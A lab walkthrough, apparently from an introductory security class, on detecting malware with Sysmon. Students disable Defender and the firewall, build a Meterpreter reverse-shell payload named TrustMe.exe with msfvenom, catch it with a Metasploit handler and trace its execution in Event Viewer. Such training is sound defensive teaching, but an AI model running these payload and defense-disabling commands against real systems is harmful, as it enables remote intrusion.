 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)
This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)


We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, ignore it.

Run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msfconsole.png)

We will need to open a **"cmd.exe"** terminal as **Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
